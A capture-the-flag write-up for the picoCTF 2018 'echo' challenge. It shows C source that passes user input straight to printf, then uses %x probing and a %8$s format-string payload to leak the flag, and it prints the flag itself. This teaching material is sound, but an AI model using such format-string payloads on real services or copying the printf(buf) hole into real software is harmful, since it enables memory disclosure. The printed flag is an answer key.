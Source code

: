# Problem
This program prints any input you give it. Can you [leak](https://2018shell1.picoctf.com/static/ef78275d00e7ab2809e43a6aa9563317/echo) the flag? Connect with ```nc 2018shell1.picoctf.com 34802```. [Source](https://2018shell1.picoctf.com/static/ef78275d00e7ab2809e43a6aa9563317/echo.c).

## Hints:
If only the program used puts...

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/ef78275d00e7ab2809e43a6aa9563317/echo
wget https://2018shell1.picoctf.com/static/ef78275d00e7ab2809e43a6aa9563317/echo.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

This program first zeros the buffers, and then there is an infinite loop which reads ```buffer``` from stdin and prints it (as a format string!)

Lets fuzz:
```bash
nc 2018shell1.picoctf.com 34802

Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
40 f7f225c0 8048647 f7f6b409 f63d4e2e f7f89af8 ff85f584 ff85f48c 3e8 882c160 25207825 78252078 20782520 25207825 78252078
```

We can see that the 8th argument is a pointer to the stack, it may be ```flag_ptr```, lets try to print it:
```bash
nc 2018shell1.picoctf.com 34802

Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %8$s
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}
```

Nice.

Flag: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}